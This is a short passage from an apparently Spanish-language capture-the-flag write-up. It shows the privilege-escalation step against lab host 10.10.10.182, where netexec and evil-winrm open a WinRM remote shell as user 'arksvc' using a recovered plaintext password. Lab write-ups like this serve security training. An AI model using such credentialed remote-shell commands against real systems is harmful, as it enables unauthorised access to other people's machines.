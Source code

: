 <figure><img src="../../../.gitbook/assets/1260_firefox_jOHXxNuWGn.png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

Procederemos de conectarnos conel usuario "Arksvc" con las nuevas credencials al WinRM.

```bash
netexec winrm 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'

evil-winrm -i 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
